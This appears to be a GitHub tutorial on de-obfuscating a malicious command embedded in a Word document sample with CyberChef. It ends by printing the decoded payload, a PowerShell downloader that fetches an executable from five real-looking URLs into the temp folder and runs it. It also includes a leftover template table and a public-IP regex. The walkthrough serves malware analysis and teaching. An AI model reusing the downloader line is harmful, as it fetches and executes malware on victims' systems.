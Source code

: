 ![logo](https://raw.githubusercontent.com/adam-p/markdown-here/master/src/common/images/icon48.png)
#### In this Tutrail i will show you how to  de-obfuscate A milieous VBS Embedded in Doc File

Start : https://www.hybrid-analysis.com/sample/9a43186e72bde764614b092b55d4dfba00f528c5f0d45e6ccb56dcee8763a845?environmentId=100 

![1](https://user-images.githubusercontent.com/29158503/60865490-d0fdcc80-a22e-11e9-8114-827ce5233897.png)



#### After Downloading the sample let go to Cyberchef to analyze the Malicious cmd.exe command present on Hyperd analysis


![2](https://user-images.githubusercontent.com/29158503/60865489-d0fdcc80-a22e-11e9-8a97-e358694714ee.png)
                                               


#### Now we need to  de-obfuscate the command using cyberchef as follow : 
+ Using replace| find Function to clean the code from (^) 

+ We notice there are SET for a verivble called (9ojB) we select that veribale and see we can find ! 

+ By the end of line we found "For /l  %3  IN  (+1640 ,  -3 ,+2 )", that mean the attcker telling the script to start from index 1640 (Whic is the last characker in the code )  and skkiping  two ckarakter all the way up.

+ To make this readbale lets revrese the code (Despaiye the fact it start from down top up) by using revrese function in Cybershef 

+ Now we need to select first Character and skipping two Characters by using regulare experation "(.).." and also select "List Capture Gruops" 

+ Great, All you need to do now is adding Synatx highliter to make the output more clear screen shot below 

![3](https://user-images.githubusercontent.com/29158503/60870145-f2fc4c80-a238-11e9-9774-79f7cace6eff.PNG)
                                                



```javascript
powershell $BYi='rfd';$iQF='http://mahimamedia.com/YxdW87t@http://mandujano.net/NWJ6@http://www.creativeagency.biz/Sa0BVm@http://www.brgsabz.com/sq@http://biogas-bulgaria.efarmbg.com/fiDaiHg'.Split('@');$RdW=([System.IO.Path]::GetTempPath()+'\zUw.exe');$uIY =New-Object -com 'msxml2.xmlhttp';$svp = New-Object -com 'adodb.stream';foreach($PXv in $iQF){try{$uIY.open('GET',$PXv,0);$uIY.send();If ($uIY.Status -eq 200) {$svp.open();$svp.type = 1;$svp.write($uIY.responseBody);$svp.savetofile($RdW);Start-Process $RdW;break}}catch{}}      
```




| Reg           |                                                                        Defination    |
| ------------- |                                                                       :-------------:| 
| ^The          |                                                                        right-aligned |
| col 2 is      |                                                                        centered      | 
| zebra stripes |                                                                        are neat      |  





# Note(Regx):

1. Public Ip 
+ ^([0-9]|[1-9][0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])(?<!172\.(16|17|18|19|20|21|22|23|24|25|26|27|28|29|30|31))(?<!127)(?<!^10)(?<!^0)\.([0-9]|[1-9][0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])(?<!192\.168)(?<!172\.(16|17|18|19|20|21|22|23|24|25|26|27|28|29|30|31))\.([0-9]|[1-9][0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])\.([0-9]|[1-9][0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])(?<!\.255$)$



